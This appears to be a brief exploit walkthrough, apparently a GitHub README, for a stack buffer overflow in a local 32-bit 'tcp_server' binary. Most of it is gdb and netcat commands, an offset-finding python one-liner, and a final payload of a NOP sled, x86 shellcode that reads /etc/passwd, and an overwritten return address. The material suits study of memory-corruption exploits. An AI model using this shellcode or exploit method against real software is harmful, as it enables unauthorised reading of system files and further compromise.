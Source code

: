 Read /etc/passwd file from tcp server host !!

Debug ELF file 
	
    gdb -q tcp_server

Set a Breakpoint before vuln_read's printf input function to display EIP,ESP etc.

	b *0x80486d7

#Run program with a custom port number 

	r 12345

Bind that port with netcat and send data

	nc 127.0.0.1 12345

Check ESP, STACK to determine payload's position in Stack

	x/1000x $esp

Continue debugging

	c

Set a payload with python to overwrite EIP

	python -c "print('A'*1024+'B'*20+'C'*30)" > payload

	nc 127.0.0.1 12345 < payload 

Check EIP value with program debugging

Everytime that you ll try  you need to restart tcp_server with gdb 

	python -c "print('\x90'*886+'\x31\xc9\x31\xc0\x31\xd2\x51\xb0\x05\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x89\xe3\xcd\x80\x89\xd9\x89\xc3\xb0\x03\x66\xba\xff\x0f\x66\x42\xcd\x80\x31\xc0\x31\xdb\xb3\x01\xb0\x04\xcd\x80\x31\xc0\xb0\x01\xcd\x80'+'\x90'*100+'\x70\xcd\xff\xff')"
